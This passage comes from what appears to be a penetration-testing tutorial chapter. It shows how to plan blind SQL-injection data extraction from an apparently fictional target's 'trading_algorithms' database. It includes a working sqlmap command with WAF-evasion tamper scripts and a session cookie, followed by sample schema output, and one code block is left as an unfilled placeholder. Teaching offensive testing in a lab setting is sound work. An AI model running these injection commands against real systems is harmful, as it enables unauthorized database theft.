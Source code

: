 ```
+------------------------+
```

You've found the treasure vault. The `algorithm_source_code` and `argos_v3_models` tables likely contain the complete ARGOS implementation.

---

## Systematic Data Extraction and Algorithm Reconstruction

Discovering injection vulnerabilities is only the beginning. Professional database exploitation requires systematically extracting specific data while managing the time and stability constraints of blind injection attacks.

### Strategic Data Extraction Planning

Blind injection data extraction is time-intensive because SQLMap must ask thousands of questions to extract each piece of information. Professional database exploitation requires prioritizing high-value data and extracting it efficiently.

[PLACEHOLDER:CODE Name: Strategic database extraction planning tool. Purpose: Helps prioritize database extraction by analyzing table schemas, estimating extraction time, and identifying the most valuable data first. Shows professional approach to time management in database exploitation. Value: High.]

First, understand what you're extracting by examining table schemas:

```bash
sqlmap -u "https://research.castle-securities.com/search?q=ARGOS" \
       --cookie="session=abc123def456" \
       --batch \
       --tamper=between,randomcase,space2comment \
       -D trading_algorithms \
       -T algorithm_source_code \
       --columns
```

This reveals the schema:

```
[INFO] Database: trading_algorithms
Table: algorithm_source_code
[6 columns]
+----------------+--------------+
| Column         | Type         |
+----------------+--------------+
| id             | int(11)      |
| algorithm_name | varchar(100) |
| version        | varchar(20)  |
| source_code    | longtext     |
| created_date   | datetime     |
| researcher_id  | int(11)      |
+----------------+--------------+
```
